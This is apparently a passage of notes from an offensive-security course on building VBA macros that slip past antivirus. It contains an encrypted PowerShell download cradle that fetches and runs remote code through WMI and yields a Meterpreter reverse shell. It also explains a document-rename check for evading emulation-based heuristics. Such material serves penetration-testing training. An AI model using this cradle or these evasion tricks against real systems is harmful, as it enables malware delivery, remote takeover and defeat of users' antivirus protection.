 Next, the _Pears_ function is called with the three-character string as input. It treats the three character string as a number, subtracts the Caesar cipher value of 17, and then converts it to a character that is added to the accumulator in _Oatmilk_.

Once a character is returned, the _Almonds_ function is called inside the loop where the _Right_ function[9](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-9) will exclude the first three characters that we just decrypted.

With the decryption routine implemented, we can use it to decrypt and execute the PowerShell download cradle:

```
Function MyMacro()
    Dim Apples As String
    Dim Water As String
    
    Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066074067063066071073063066066074063066067065064115128128124063133137133056058058"
    Water = Nuts(Apples)
    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function
```

> Listing 47 - Decrypting and executing the PowerShell download cradle

Recall that previously, we invoked the _Create_ method with the second and third arguments set to "Null". In order to replicate this, we instead use undefined variables in the VBA code above, which by default contains the value "Null".

Once we execute the encrypted VBA macro, we obtain a Meterpreter reverse shell, proving that the rather convoluted technique actually works. We anxiously test the document against AntiScan.Me and discover that only two products flag our code:

![[OffSec/OSEP/Course/z. images/cec4954fb0c82921538d63c2e31e7415_MD5.jpg]]

Figure 35: Encryption string detection rate

This custom encryption routine reduced our detection rate, but we can push it even further. Although we have fully encrypted the VBA code, we are likely running into heuristics detection.

There are a number of ways to bypass heuristics in VBA that do not involve the use of Win32 APIs.[10](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-10) One simple technique is to check the document name when the macro runs.

When most antivirus products emulate the execution of a document, they rename it. During execution, we check the name of the document and if we find that it is not the same as the one we originally provided, we can assume the execution has been emulated and we can exit the code.

For example, let's assume we named the document runner.doc. If we check the _Name_[11](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-11) property of the _ActiveDocument_ and find it to be anything but runner.doc, we'll exit to avoid heuristics detection. To further the obfuscation, we'll even encrypt this static document name (runner.doc in our case).

